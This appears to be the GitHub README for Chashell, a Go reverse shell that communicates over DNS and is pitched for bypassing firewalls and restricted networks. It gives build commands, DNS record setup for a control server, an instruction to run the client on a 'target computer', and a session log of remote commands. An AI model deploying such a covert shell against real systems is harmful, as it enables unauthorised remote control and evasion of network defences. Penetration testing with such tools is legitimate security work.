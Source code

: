 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicate using DNS. 
It can be used to bypass firewall or heavy restricted networks.

It comes with a multi-client control server named *chaserv*.

![Chaserv](img/chaserv.gif)

### Communication security

Every packets are encrypted using symetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)) with a shared key between the client
and the server.

Asymetric cryptography is **planned**, however we still have issues regarding the key exchange.

### Supported systems

All desktop systems (Windows, Linux, Darwin, BSD variants) supported by the Go compiler should work.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)


### How to use Chaserv/Chashell

#### Building

Build the binaries (change the domain_name and the encryption key) :


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

For building in a specific platform :

```
$ make build-all OSARCH="linux/arm"
```

#### DNS Settings

* Buy/use a domain name of your choice (small if possible).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

* Run chaserv on the control server.
* Run chashell on the target computer.

The client should now appear on chaserv :

```
[n.chatelain]$ sudo ./chaserv
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

On the server, use the chaserv binary.
For the client (or the target), use the chashell binary.

